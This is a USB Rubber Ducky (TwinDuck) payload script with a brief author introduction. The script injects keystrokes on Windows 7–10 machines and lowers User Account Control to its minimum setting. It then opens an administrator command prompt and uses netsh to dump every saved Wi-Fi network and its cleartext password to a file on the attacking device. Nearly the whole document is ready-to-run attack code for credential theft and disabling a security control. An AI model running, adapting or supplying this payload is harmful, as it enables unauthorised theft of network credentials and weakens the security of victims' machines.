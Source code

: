 This payload is designed to retrieve all save wireless networks and their passwords, on a windows 7-10 machine.  I have modified the normal way around bypassing UAC because i found that on some machines, the alert prompt where we would typically say "ALT y" or "LEFTARROW ENTER", is sometimes not the focus of the screen.. this method goes right into the UAC settings and lowers it to the min.

    REM --> Auth- eliddell
    REM --> for use with TwinDuck on windows 7+
    REM --> This duck will take all saved wireless networks and save their info including passwords/keys, to a text file on your duck
    DEFAULT_DELAY 75
    DELAY 3000
    REM --> Minimize all windows
    WINDOWS d
    DELAY 500
    REM run CMD as admin to see network passwords/keys
    REM sometimes the admin prompt does not take focus on machines with secure desktop we will force UAC to min
    CONTROL ESCAPE
    DELAY 300
    STRING useraccountcontrolsettings
    ENTER
    DELAY 300
    LEFTARROW
    ENTER
    DELAY 300 
    DOWNARROW
    DOWNARROW
    DOWNARROW
    DOWNARROW
    TAB
    ENTER
    DELAY 300
    LEFTARROW
    ENTER
    DELAY 300
    CONTROL ESCAPE
    DELAY 300
    STRING cmd
    CTRL-SHIFT ENTER
    DELAY 300
    REM Change directories because System32 appears to be protected. 
    STRING CD %TEMP%
    ENTER
    REM Make batch file that waits for SD card to mount. 
    REM Delete batch file if already exists
    STRING erase /Q DuckyWait.bat
    ENTER
    STRING copy con DuckyWait.bat
    ENTER
    REM DuckyWait.bat contents
    STRING :while1
    ENTER
    STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
    ENTER
    STRING if Exist %myd% (
    ENTER
    STRING goto break
    ENTER
    STRING )
    ENTER
    STRING timeout /t 30
    ENTER
    STRING goto while1
    ENTER
    STRING :break
    ENTER
    REM 
    REM once mounted switch to ducky dir for ease of dumping log to txt
    STRING %myd%
    ENTER
    DELAY 500
    REM iterate through all saved wlan profiles and print saved info for each
    STRING for /f "tokens=4 delims=: " %%A in ('netsh wlan show profiles') do netsh wlan show profiles name=%%A key=clear >>wlanProfiles.txt
    CONTROL z
    ENTER
    REM run duckywait
    STRING DuckyWait.bat
    ENTER
    DELAY 500
    STRING exit
    ENTER
    WINDOWS d



